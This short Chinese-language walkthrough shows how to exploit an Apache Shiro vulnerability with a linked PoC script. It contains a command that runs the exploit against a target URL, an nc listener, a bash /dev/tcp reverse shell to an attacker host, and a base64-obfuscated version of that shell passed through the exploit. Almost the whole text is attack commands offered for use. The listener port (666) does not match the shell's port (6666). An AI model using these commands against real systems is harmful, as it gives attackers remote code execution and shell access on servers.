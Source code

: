 <languages   />

POC
---

<https://github.com/insightglacier/Shiro_exploit>

漏洞利用
--------

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "touch a.txt"

命令执行成功。

Getshell
--------

监听机器执行以下命令：

    nc -lvp 666

受害机器执行以下命令：

    bash -i >& /dev/tcp/192.168.2.130/6666 0>&1
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}

    python3 shiro_exploit.py -t 3 -u http://192.168.2.147:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMwLzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}"